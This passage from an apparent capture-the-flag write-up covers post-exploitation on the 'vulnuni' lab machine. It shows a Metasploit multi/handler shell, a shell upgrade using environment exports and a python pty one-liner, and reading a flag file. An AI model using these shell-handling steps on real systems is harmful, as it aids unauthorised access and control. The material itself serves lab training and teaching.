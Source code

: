         <img class="img-fluid rounded z-depth-1" src="vulnuni8.png">
    </div>
</div>
<div class="caption">
    Receiving a shell on the metasploit multi/handler 
</div>    

I spent some time running through meterpreter enumeration scripts to gather more details on the target. Once I gathered enough information, I dropped into a shell to run some linux privilege escalations scripts. Using the shell command, I dropped into a low interactive shell. To upgrade, I ran the following exports and used a simple python script to open up a bash shell.

```bash
root@kali$ meterpreter > shell
Process 2181 created.
Channel 1 created.
export TERM=xterm
export SHELL=bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
python -c ‘import pty;pty.spawn(“/bin/bash”)’
www-data@vulnuni:/root@kali$
```

With a better shell, I did some manual navigating on the target and came across a flag in the vulnuni/home directory.

```bash
www-data@vulnuni$ ls
ls
Desktop    Downloads  Pictures  Templates  examples.desktop
Documents  Music      Public    Videos     flag.txt
www-data@vulnuni:/home/vulnuniwww-data@vulnuni$ cat flag.txt
cat flag.txt
68fc668278d9b0d6c3b9dc100bee181e
```  
